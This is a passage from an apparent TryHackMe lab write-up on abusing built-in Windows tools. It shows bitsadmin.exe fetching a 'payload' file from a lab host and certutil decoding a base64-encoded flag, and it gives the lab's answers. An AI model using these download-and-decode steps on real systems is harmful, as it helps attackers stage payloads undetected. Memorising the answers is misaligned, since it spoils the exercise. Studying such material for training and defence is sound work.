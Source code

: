 Now we can use bitsadmin.exe to download this file on our target machine :

```console
C:\Users\thm\Desktop> bitsadmin.exe /transfer /Download /priority Foreground http://10.10.141.93:8000/test.txt c:\Users\thm\Desktop\payload.txt

DISPLAY: '/Download' TYPE: DOWNLOAD STATE: TRANSFERRED
PRIORITY: FOREGROUND FILES: 1 / 1 BYTES: 6 / 6 (100%)
Transfer complete.

C:\Users\thm\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm\Desktop

12/10/2022  08:23 AM    <DIR>          .
12/10/2022  08:23 AM    <DIR>          ..
12/10/2022  08:14 AM                66 encoded-test.txt
12/10/2022  08:23 AM                52 enc_thm_0YmFiOG_file.txt
12/10/2022  08:11 AM                 6 payload.txt
04/14/2022  12:40 PM               955 SysinternalsSuite.lnk
12/10/2022  08:09 AM                 6 test.txt
               5 File(s)          1,085 bytes
               2 Dir(s)  13,900,763,136 bytes free
```
{: .nolineno }

Answer : enc_thm_0YmFiOG_file.txt

### Use the certutil.exe tool to decode the encoded flag file from question #1. In order to decode the file, we use -decode option as follow:

What's our encoded flag ? 

```console
C:\Users\thm\Desktop>type enc_thm_0YmFiOG_file.txt
VEhNe2VhNGUyYjlmMzYyMzIwZDA5ODYzNWQ0YmFiOGE1NjhlfQo=
```
{: .nolineno }

Ok, we can use certutil -decode to get the orignal content of the file :

```console
C:\Users\thm\Desktop>certutil -decode
Expected at least 2 args, received 0
CertUtil: Missing argument

Usage:
  CertUtil [Options] -decode InFile OutFile
  Decode Base64-encoded file

Options:
  -f                -- Force overwrite
  -Unicode          -- Write redirected output in Unicode
  -gmt              -- Display times as GMT
  -seconds          -- Display times with seconds and milliseconds
  -v                -- Verbose operation
  -privatekey       -- Display password and private key data
  -pin PIN                  -- Smart Card PIN
  -sid WELL_KNOWN_SID_TYPE  -- Numeric SID
            22 -- Local System
            23 -- Local Service
            24 -- Network Service

CertUtil -?              -- Display a verb list (command list)
```